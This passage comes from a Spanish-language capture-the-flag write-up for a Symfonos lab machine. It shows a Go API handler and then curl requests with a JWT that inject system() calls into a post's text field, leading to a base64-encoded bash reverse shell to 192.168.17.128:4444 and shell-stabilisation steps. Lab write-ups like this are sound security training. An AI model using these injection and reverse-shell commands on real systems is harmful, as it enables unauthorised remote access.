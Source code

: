 - Además, tenemos `posts.auth.go`, en donde se muestra una función `create`, la cual nos da la forma en la que debemos mandar nuestra solicitud. Al parecer nos pide loguearnos también pero para eso ya tenemos nuestro JWT:

~~~ go
  func create(c *gin.Context) {
        db := c.MustGet("db").(*gorm.DB)
        type RequestBody struct {
                Text string `json:"text" binding:"required"`
        }
        var requestBody RequestBody

        if err := c.BindJSON(&requestBody); err != nil {
                c.AbortWithStatus(400)
                return
        }

        user := c.MustGet("user").(User)
        post := Post{Text: requestBody.Text, User: user}
        db.NewRecord(post)
        db.Create(&post)
        c.JSON(200, post.Serialize())
}
~~~
- Requerimos llenar el campo `text` con nuestro texto, intentaremos ejecutar un comando con esto mismo.
- Debemos usar `$` en la petición para que nos interprete el escape de las comillas simples, pues no podemos usar dobles comillas:

~~~ bash 
┌──(kali💀Dedsec)-[~/…/symfonos-api/api/v1.0/posts]
└─$ curl -X PATCH 'http://symfonos.vh:5000/ls2o4g/v1.0/posts/1' -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MDI0OTIxODYsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.MC2SfVYDK_cIPXYL93IdLm0E0rJF_onuiV7aWd_OCdw" -d $'{"text": "system(\'id\')"}';echo

{"created_at":"2020-04-02T04:41:22-04:00","id":1,"text":"system('id')","user":{"display_name":"achilles","id":1,"username":"achilles"}}
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/523e39a7-7ab3-4b16-abe2-3a83def77f75)

- Y ahí tenemos nuestra RCE, para entablar conexión al server simplemente bastaría ordenar mandarnos una revshell, de la siguiente manera:
- Encodeamos nuestro payload:
~~~bash
echo "bash -i >& /dev/tcp/192.168.17.128/4444 0>&1" | base64
~~~
- Mandamos el payload
~~~ bash
curl -X PATCH 'http://symfonos.vh:5000/ls2o4g/v1.0/posts/1' -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MDI0OTIxODYsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.MC2SfVYDK_cIPXYL93IdLm0E0rJF_onuiV7aWd_OCdw" -d $'{"text": "system(\'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3LjEyOC80NDQ0IDA+JjEK | base64 -d | bash\')"}'; echo
~~~
- Nos ponemos en escucha con netcat y deberíamos ganar acceso:
- Una vez dentro nos hacemos todo el ritual para tratar la TTY:
~~~ bash
script /dev/null -c bash
^Z
#Dejamos nuestra sesión en segundo plano
stty raw -echo; fg
#Nuestro tecleo será invisible, reiniciamos la xterm de igual manera
reset xterm
#Nos aparecerá un mensaje
export TERM=xterm
export SHELL=bash
~~~